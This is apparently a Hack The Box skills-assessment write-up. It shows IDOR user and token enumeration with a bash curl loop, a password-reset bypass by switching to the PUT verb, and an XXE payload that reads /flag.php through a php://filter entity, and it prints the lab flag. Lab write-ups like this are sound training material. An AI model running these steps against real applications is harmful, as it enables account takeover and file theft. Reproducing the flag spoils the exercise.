 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](cybersecurity/images/Pasted%2520image%252020250217220316.png)

Let's visit the web application:

![](cybersecurity/images/Pasted%2520image%252020250217220549.png)

We can authenticate now:

![](cybersecurity/images/Pasted%2520image%252020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](cybersecurity/images/Pasted%2520image%252020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](cybersecurity/images/Pasted%2520image%252020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](cybersecurity/images/Pasted%2520image%252020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![](cybersecurity/images/Pasted%2520image%252020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](cybersecurity/images/Pasted%2520image%252020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](cybersecurity/images/Pasted%2520image%252020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](cybersecurity/images/Pasted%2520image%252020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![](cybersecurity/images/Pasted%2520image%252020250217230238.png)

Now we get something different, let's adjust the parameters:

![](cybersecurity/images/Pasted%2520image%252020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](cybersecurity/images/Pasted%2520image%252020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](cybersecurity/images/Pasted%2520image%252020250217230553.png)

Let's create a simple test event:

![](cybersecurity/images/Pasted%2520image%252020250217230641.png)

Now, check the request:

![](cybersecurity/images/Pasted%2520image%252020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](cybersecurity/images/Pasted%2520image%252020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](cybersecurity/images/Pasted%2520image%252020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](cybersecurity/images/Pasted%2520image%252020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](cybersecurity/images/Pasted%2520image%252020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![](cybersecurity/images/Pasted%2520image%252020250217234432.png)

